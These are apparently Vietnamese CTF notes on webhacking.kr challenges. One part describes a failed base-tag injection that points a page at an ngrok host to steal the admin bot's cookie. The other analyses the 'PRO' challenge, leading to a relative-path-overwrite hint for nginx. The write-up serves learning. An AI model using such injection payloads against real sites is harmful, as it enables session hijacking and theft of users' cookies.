 Host file bằng ngrok và khi inject thì em dùng thẻ base để đổi base uri của trang web. Vậy nên em có payload: `?inject=<base href="https://e7fd-2a09-bac5-d45f-e6-00-17-16b.ap.ngrok.io">`

Thử tự test cookie của em có trả về:

![](https://i.imgur.com/CTvAykB.png)


Gửi cho nó admin và chờ cookie của admin trả về

![](https://i.imgur.com/aRNz36h.png)

Nhưng không hiểu saoooooooooo nó không chạy :cry: 

Không hiểu em sai ở đâu, em đã lên tìm thử write up và thấy họ cũng làm vậy T.T

**SOS**

---

# Webhacking/PRO

![](https://i.imgur.com/tID6kV4.png)

Link to chall: http://webhacking.kr:10011/

## Phân tích

Sau khi vào trang web ngoài trừ `report` page thì không thể bấm vào được đâu để test tính năng của web nữa, nên em đã ctrl u để đọc source code:

![](https://i.imgur.com/LvdBUiS.png)

Em thấy website sử dụng XMLHttpRequest để call api tới `api.php/search + một từ trong mảng location[]`

![](https://i.imgur.com/DLM6MYh.png)

Call thử api theo đường link đó và em thấy server trả về cho em một object chứa đúng thông tin mà website sử dụng để hiện thị khi trỏ chuột vào `hoth`.

Có lẽ đây là vị trí truyền dữ liệu duy nhất mà chúng ta kiểm soát.

Em bắt đầu chèn thử một vài path bất kỳ: 

![](https://i.imgur.com/8R80OoU.png)

![](https://i.imgur.com/mL1ZgPL.png)

![](https://i.imgur.com/GhUr5kO.png)

Sau khi thử vài lần em xác định được web server là nginx, dấu ngoặc < > và các ký tự trong nó đều bị filter.

Thực sự thì rất là bế tắc. Sau khi đi xin hint thì em được hint đây là lỗi RPO, bắt đầu đi tìm hiểu về lỗi này. Sau một hồi tìm doc thì chúng ta có thể thực hiện tất công rpo với web server nginx bằng url decoding
